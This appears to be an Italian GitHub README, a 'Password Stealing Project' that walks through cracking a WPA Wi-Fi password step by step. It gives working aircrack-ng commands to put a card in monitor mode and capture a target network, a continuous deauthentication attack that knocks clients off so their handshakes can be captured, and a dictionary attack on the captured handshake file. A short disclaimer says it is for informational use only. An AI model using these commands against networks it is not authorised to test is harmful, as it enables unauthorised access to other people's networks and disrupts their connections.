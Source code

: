 # $${\color{white}Password \space \color{red}Stealing \space \color{white}Project}$$
Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

## $${\color{green}Listening \space wifi}$$

Per iniziare ci servirà un OS Linux con scaricato il tool [Aircrack-ng](https://www.aircrack-ng.org/). Possibilmente usate come distro Kali in quanto preinstallato.
Iniziamo aprendo un terminale e seguendo i seguenti comandi: <br>
```bash
┌(root💀kali)-[~]
│
┕$ iwconfig
```
<p align="center">
  <img src="https://media.discordapp.net/attachments/894962833773711380/1205236414799806484/1.png?ex=662a08a1&is=6628b721&hm=e96abaa749a864390b4ee13873ab9c7a1281f3e3bb0677c5987b5c31a8c553a6&=&format=webp&quality=lossless">
</p>
Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo airomon-ng start wlan
```
<p align="center">
  <img src="https://media.discordapp.net/attachments/894962833773711380/1205236418083815434/2.png?ex=662a08a2&is=6628b722&hm=3f5ff56ee293186eecdd33b3b169f04975034e815ed621b121c20dd920456cfe&=&format=webp&quality=lossless">
</p>
Successivamente per visualizzare tutte le reti disponibili: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng wlan0mon
```
<br>
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418327089172/4.png?ex=65d7a2e2&is=65c52de2&hm=f3a07c39e30e47b8ff61a4d6462ff30ecdab02777c04ae4f9481e96146d5263f&">
</p>
Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng -canale -w NomeFile -d BSSID wlan0mon
```
In questo modo stiamo verificando solo la rete in questione.
## $${\color{green}Deauth \space \color{red} Attack}$$
Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...).
Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco.
<p align="center">
  <img src="https://media.discordapp.net/attachments/894962833773711380/1205236418327089172/4.png?ex=662a08a2&is=6628b722&hm=ac028cd41dede47486ad5a29ee4992038cc01512a386566eb3c6411157ca3487&=&format=webp&quality=lossless">
</p>
Attacco deauth integrato <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo aireplay-ng --deauth 0 -a BSSID -c STATION wlan0mon
```
<p align="center">
  <img src="https://media.discordapp.net/attachments/894962833773711380/1205236418616627231/5.png?ex=662a08a2&is=6628b722&hm=575b361e7a8201ce8926fdf9980cba8740ce7ac23aed1229b91d28e39ece0a48&=&format=webp&quality=lossless&width=1193&height=671">
</p>

## $${\color{white}WPA \space \color{green}handshake \space \color{red}decrypt}$$

Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```
<p align="center">
  <img src="https://media.discordapp.net/attachments/894962833773711380/1205236418977472573/6.png?ex=662a08a2&is=6628b722&hm=63eb531c000c29d0ac4f6842fd0a8790eb41bbc3b5bbc75b7cf561ea03a890ce&=&format=webp&quality=lossless">
</p>
Il tempo di decriptazione può variare in base alla difficoltà della password.

## $${\color{orange}Tools}$$
[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32). <br>
Deauther più economico [Marauder](https://github.com/justcallmekoko/ESP32Marauder) sempre con base ESP32. <br>
Tool usato per condividere lo schermo in rete locale [Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)
